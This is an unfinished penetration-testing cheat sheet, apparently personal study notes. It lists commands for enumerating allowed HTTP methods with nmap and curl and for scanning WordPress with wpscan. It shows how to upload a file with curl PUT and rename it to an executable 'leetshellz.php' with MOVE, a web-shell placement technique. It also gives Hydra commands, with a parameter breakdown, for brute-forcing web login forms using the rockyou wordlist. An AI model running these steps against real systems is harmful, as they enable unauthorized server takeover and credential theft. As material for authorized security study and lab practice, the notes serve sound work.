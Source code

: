 # WIP



OPTIONS

nmap --script http-methods --script-args http-methods.url-path=**'/test'** x.x.x.x
curl -vX OPTIONS x.x.x.x/abc

Wordpress

wpscan –url x.x.x.x/blog $ip:3129


You can also upload a file using the PUT method with the curl command:

curl -T **'leetshellz.txt'** **'http://$ip'**

And rename it to an executable file using the MOVE method with the curl command:

curl -X MOVE --header **'Destination:http://$ip/leetshellz.php'** **'http://$ip/leetshellz.txt'**



Hydra Password Bruteforce

    hydra 192.168.1.69 http-form-post "/w3af/bruteforce/form_login/dataReceptor.php:user=^USER^&pass=^PASS^:Bad login" -L users.txt -P pass.txt -t 10 -w 30 -o hydra-http-post-attack.txt




​    
Explanation:

    Host = 192.168.1.69
    Method = http-form-post
    URL = /w3af/bruteforce/form_login/dataReceptor.php
    Form parameters = user=^USER^&pass=^PASS^
    Failure response = Bad login
    Users file = users.txt
    Password file = pass.txt
    Threads = -t 10
    Wait for timeout = -w 30
    Output file = -o hydra-http-post-attack.txt


Other example

	hydra 111.11.111.11 http-form-post "/:password=^PASS^:Invalid" -P /usr/share/wordlists/rockyou.txt -l user -t 10 -s 42616 -v

This attacks the ip address on port 42616